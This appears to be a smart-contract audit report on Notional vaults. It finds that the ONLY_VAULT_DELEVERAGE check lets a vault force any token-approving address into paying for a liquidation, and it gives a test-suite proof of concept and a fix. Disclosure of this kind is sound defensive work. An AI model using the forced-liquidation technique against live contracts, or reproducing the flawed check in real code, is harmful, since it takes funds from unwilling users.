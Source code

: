 Arbitrary-Execution
# When `ONLY_VAULT_DELEVERAGE` is enabled a vault can force an arbitrary address to liquidate an unhealthy vault account

## Summary
When `ONLY_VAULT_DELEVERAGE` is enabled a vault can force an arbitrary address to liquidate an unhealthy vault account

## Vulnerability Detail
When the `ONLY_VAULT_DELEVERAGE` flag is set, only the vault address itself can call `deleverageAccount` in `VaultAccountAction.sol`. This is enforced via the `_authenticateDeleverage` function:

```solidity
// Authorization rules for deleveraging
if (vaultConfig.getFlag(VaultConfiguration.ONLY_VAULT_DELEVERAGE)) {
    require(msg.sender == vault, "Unauthorized");
} else {
    require(msg.sender == liquidator, "Unauthorized");
}
```

However, inside the `if` block when the `ONLY_VAULT_DELEVERAGE` flag is set, the `require` statement only checks that `msg.sender == vault`. This check is different from the other check in the `else` block as it does not check that the passed-in `liquidator` address is also the vault address. This means the vault address can supply _any_ address as the liquidator, which is ultimately the address that has to pay the token amount to liquidate an unhealthy vault account. As long as the unwilling liquidator meets the following conditions it can be forced to liquidate accounts by the vault:

1. The liquidator has enough of the underlying tokens necessary for liquidation.
2. The liquidator has approved the Notional proxy address with enough tokens necessary for liquidation.
3. The liquidator does not already have a position in the vault whose maturity is different from the one of the unhealthy account.

## Impact
A vault can force _any_ address to liquidate an unhealthy vault account so long as the above conditions are met, even if the liquidation would be unprofitable for the liquidator.

## Code Snippet
PoC (add to `tests/stateful/vaults/test_vault_deleverage.py`):
```python3
def test_deleverage_account_from_vault_with_different_account(environment, accounts, vault):
    environment.notional.updateVault(
        vault.address,
        get_vault_config(currencyId=2, flags=set_flags(0, ENABLED=True, ONLY_VAULT_DELEVERAGE=1)),
        100_000_000e8,
    )
    maturity = environment.notional.getActiveMarkets(1)[0][1]
    vaultAccount = accounts.at(vault.address, force=True)

    # The vault account does not have any DAI/cDAI that would be necessary to liquidate an account
    assert environment.token["DAI"].balanceOf(vaultAccount) == 0
    assert environment.cToken["DAI"].balanceOf(vaultAccount) == 0

    environment.notional.enterVault(
        accounts[1], vault.address, 50_000e18, maturity, 200_000e8, 0, "", {"from": accounts[1]}
    )

    vault.setExchangeRate(0.95e18)

    accountInfo = environment.notional.getVaultAccount(accounts[2], vault)
    assert accountInfo["maturity"] == 0

    # Notice how the liquidator here is accounts[2], but the caller is the vault account.
    # accounts[2] meets the 3 requirements:
    # 1) holds enough DAI/cDAI to liquidate an account
    # 2) has approved the Notional proxy to transfer tokens (maybe they are interacting with other
    #    functionality within Notional)
    # 3) does not currently hold a maturity in the vault
    environment.notional.deleverageAccount(
        accounts[1], vault.address, accounts[2], 1_000e8, True, "", {"from": vaultAccount}
    )

    accountInfo = environment.notional.getVaultAccount(accounts[2], vault)
    # accounts[2] now has a position in the vault due to the forced liquidation
    assert accountInfo["maturity"] != 0
```

## Tool used

Manual Review

## Recommendation
Consider adding a check to `_authenticateDeleverage` to ensure that when the `ONLY_VAULT_DELEVERAGE` flag is set the vault account can only set the liquidator to be itself or its owner address.
